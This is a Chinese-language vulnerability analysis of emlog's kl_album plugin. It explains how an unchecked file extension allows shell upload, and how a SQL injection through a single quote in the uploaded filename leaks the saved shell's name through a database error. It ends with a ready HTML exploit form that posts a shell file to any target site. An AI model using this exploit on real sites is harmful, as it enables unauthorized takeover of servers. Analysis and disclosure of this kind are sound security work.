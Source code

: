 从上面的代码中我们发现，对于之前传入的$_type这个变量在这个函数里根本就没有起到任何左右，函数中定义的$imtype = array('jpg','png','jpeg','gif');，也不是用来验证后缀的，而是判断是否需要生成缩略图的，所以重点就是下面的内容了：

```
$extension  = strtolower(substr(strrchr($filename, "."),1));
$uppath = KL_UPLOADFILE_PATH . date("Ym") . "/";
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension;
$attachpath = $uppath . $fname;
...
...
...
if(@!move_uploaded_file($tmpfile ,$attachpath)){ 
```

这里我们可以发现上传的文件名是：

```
$fname = md5($filename) . date("YmdHis") . rand() .'.'. $extension; 
```

这里的意思是将原来的文件名的md5值+当前时间+rand随机数+后缀，md5值和时间基本上比较好确定，但是这个rand（）随机数一般都是0-65535之间，非常麻烦。

同时我们可以看到下面的代码，并没有把问卷名输出的地方，只是echo 'kl_album_successed';。难道，我们需要暴力破解shell名字？

我们返回kl_album_ajax_do.php，可以发现上传的if语句中有如下代码：

```
$result = $DB->query("INSERT INTO ".DB_PREFIX."kl_album(truename, filename, description, album, addtime, w, h) VALUES('{$_FILES['Filedata']['name']}', '{$upfname}', '".date('Y-m-d', time())."', {$album}, ".time().", {$photo_size['w']}, {$photo_size['h']})"); 
```

这里将$_FILES['Filedata']['name']直接插入数据库。这里另造成了一个SQL注入漏洞，当然既然有之前的getshell，这里的注入就有点当陪衬了。不过emlog在遇到SQL语句出错的情况下是会报错的。
所以所以，这里我们正好用到这个特性，通过报错可以将$upfname这个字段爆出来，这也就是我们上传成功的shell名字。
如何报错？上传文件名里加个单引号即可。

### 漏洞复现

```
<form id="exp" method="post" enctype="multipart/form-data">
<p>target url > <input id="url" type="text" style="width: 300px"></p>
<p>shell file > <input type="file" name="Filedata"></p>
<input name="album" type="hidden" value="111111" >
<p><input type="submit" value="GO!" οnclick="exp.action=url.value+'/content/plugins/kl_album/kl_album_ajax_do.php';"></p>
</form> 
```

保存为html，本地打开：

![image](img/e19c7fad475e8ecea5c1d49fea29b750.png)
